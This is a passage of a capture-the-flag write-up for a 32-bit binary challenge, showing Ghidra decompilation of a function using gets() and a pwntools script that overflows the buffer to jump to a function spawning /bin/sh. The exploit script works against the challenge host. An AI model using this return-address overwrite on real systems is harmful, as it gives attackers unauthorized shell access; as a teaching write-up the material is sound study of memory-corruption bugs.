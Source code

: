 No stack canary, assume BOF; no PIE, assume ROP.

### Decompile with Ghidra

```c
void vuln(void)
{
  char local_3e [54];
  
  __x86.get_pc_thunk.ax();
  gets(local_3e);
  return;
}

void win(void)
{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  system((char *)(iVar1 + 0x12e));
  return;
}
```

From `vuln`, `gets` can be used to overwrite the return address on the stack.  `local_3e` is `0x3e` bytes from the return address, so just write out `0x3e` of garbage followed by the address for `win`.

The `system` call in `win` is actually `system("/bin/sh")`, to understand why `iVar1 = __x86.get_pc_thunk.ax(); system((char *)(iVar1 + 0x12e));` equates to that, read [ractf2020/nra#decompile-with-ghidra](https://github.com/datajerk/ctf-write-ups/tree/master/ractf2020/nra#decompile-with-ghidra).  In short, `iVar1` is the address of the next instruction, then add `0x12e`, and then look in the disassembly at the location for the string.  In this case it's `/bin/sh`.  Welcome to x86 (32-bits).


### Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_02')

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('chal.2020.sunshinectf.org', 30002)

p.sendlineafter('Went along the mountain side.\n','foobar')

payload  = b''
payload += 0x3e * b'A'
payload += p32(binary.sym.win)

p.sendline(payload)
p.interactive()
```
